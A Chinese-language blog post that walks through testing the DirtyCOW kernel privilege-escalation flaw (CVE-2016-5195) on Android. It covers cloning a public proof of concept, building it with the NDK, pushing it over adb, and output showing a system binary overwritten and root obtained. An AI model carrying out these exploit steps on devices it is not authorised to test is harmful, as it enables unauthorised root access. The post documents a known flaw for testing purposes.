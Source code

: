 ```yaml
---
title: DirtyCOW(CVE-2016-5195)测试
date: 2016-11-10 01:17:22
tags:
	- android
	- 安全
---
```


**前言**
	最近研究人员Phil Oester发现了dirtyCOW脏奶牛漏洞，影响从2007年linux2.6.22至今的所有linux内核。dirtyCOW是本地提权漏洞，具体是利用linux内存子系统在处理写时复制(copy-on-write,COW)时产生了竞争条件,使得低权限用户有机会对只读内存里的内容进行写入操作，达到提权的目的。
	众所周知，android系统也是基于linux内核，所以dirtyCOW对android设备同样适用，而且是全系android通用，因为android 1.0 内核版本是2.6.25。
	github上已经有人放出了android可用的[PoC](https://github.com/timwr/CVE-2016-5195),而谷歌11月5日发布的安全更新还没有修复这个漏洞，有兴趣测试的可以一下。

<!-- more -->

**零.编译环境**
工欲善其事，必先利其器,想让用c语言编写的dirtyCOW在android平台运行，android-ndk必不可少。
	android-ndk可以通过android-studio下载，然后把ndk所在文件夹添加到环境变量
	```
		nano .bashrc
		export NDK_HOME=/home/username/Android/Sdk/ndk-bundle
		export PATH=$PATH:$NDK_HOME
	```
username改成自己的用户名
为了让添加的立即生效
> source .bashrc



**一.代码下载**
> git clone https://github.com/timwr/CVE-2016-5195.git


**二.编译**	
> cd CVE-2016-5195
此时把设备用usb连接电脑，并打开usb调试，确保已经安装adb，如果没有，ubuntu下运行
- sudo apt-get install android-tools-adb

编译
	
> make root

接下来稍等片刻，编译脚本会自动把编译好的文件通过adb发送到设备
最后会看到终端下提示
	```
		adb push libs/armeabi/run-as /data/local/tmp/run-as
		[100%] /data/local/tmp/run-as
		adb shell 'chmod 777 /data/local/tmp/run-as'
		adb shell '/data/local/tmp/dirtycow /system/bin/run-as /data/local/tmp/run-as'
		warning: new file size (9464) and file old size (17944) differ

		size 17944


		[*] mmap 0xb51e5000
		[*] exploit (patch)
		[*] currently 0xb51e5000=464c457f
		[*] madvise = 0xb51e5000 17944
		[*] madvise = 0 1048576
		[*] /proc/self/mem 1635778560 1048576
		[*] exploited 0xb51e5000=464c457f
		adb shell /system/bin/run-as
		running as uid 2000
		uid 0
	```
运行run-as时的uid为0,已经达到提权的目的，测试完毕。

**总结：**
dirtyCOW确实可以达到提权的目的，但是通过这个漏洞只能覆盖掉系统里已有的文件，并不能直接添加文件，也就是说单纯通过这一个漏洞达到root手机的目的有些困难。xda论坛已经有人通过这个漏洞在已经解锁的设备上刷入了第三方recovery，但是这种方法风险太大，有可能变砖，好在11月安全更新并没有修复dirtyCOW，至少还有一个月时间让各路大神探索其他风险更小的root途径。
